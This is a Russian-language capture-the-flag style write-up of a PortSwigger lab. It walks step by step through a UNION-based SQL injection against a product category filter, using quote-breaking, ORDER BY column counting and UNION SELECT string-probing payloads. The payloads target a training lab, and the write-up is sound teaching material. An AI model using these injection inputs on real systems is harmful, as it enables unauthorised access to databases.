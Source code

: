 ```yaml
---
title: "SQL injection UNION attack, finding a column containing text"
date: 2025-06-19
tags: [sqli, writeup]
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
---
```


**Source:** [Coffee Cube](https://t.me/coffee_cube)  
**Lab:** [PortSwigger](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-finding-columns-with-a-useful-data-type/sql-injection/union-attacks/lab-find-column-containing-text)


## Scope
```
https://0ae10098047afc77a0e79a58006d0024.web-security-academy.net/
```

В данной лабе есть уязвимый к **SQL injection** фильтр категории. Нужно найти столбец, в котором используются строки.


## Solution

Из задания известно, что **sqli** находится в фильтре категории, поэтому возьму `URL` и буду работать с ним:

```
https://0ae10098047afc77a0e79a58006d0024.web-security-academy.net/filter?category=Accessories
```

Теперь нужно найти обрамление параметра. Предположу, что запрос в БД выглядит следующим образом:

```sql
SELECT * FROM table WHERE category = 'Accessories'
```

Поверю это, передав следующий пейлоад:

```
Accessories' and false-- -
```

Товары не отобразились, значит я нашел обрамление. 

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-finding-a-column-containing-text/1.png){: height="200" .align-center}

Далее найду количество колонок с помощью `ORDER BY`:

```
Accessories' ORDER BY 4-- -ошибка
Accessories' ORDER BY 3-- -ОК
```

Значит в БД 3 колонки. Подставлю `UNION`, чтобы вывести данные на страницу:

```
Accessories' UNION SELECT NULL, NULL, NULL-- -ОК
```

Подставлю свои данные вместо `NULL`:

```
Accessories' UNION SELECT NULL, NULL, NULL-- -
```

Только сейчас заметил, что нужно вывести определенную строку) Ну ок.

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-finding-a-column-containing-text/2.png){: height="200" .align-center}


```
Accessories' UNION SELECT 'xCxqZ9', NULL, NULL-- -ошибка
Accessories' UNION SELECT NULL, 'xCxqZ9', NULL-- -ОК
```

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-finding-a-column-containing-text/3.png){: height="200" .align-center}

Лаба решена:3
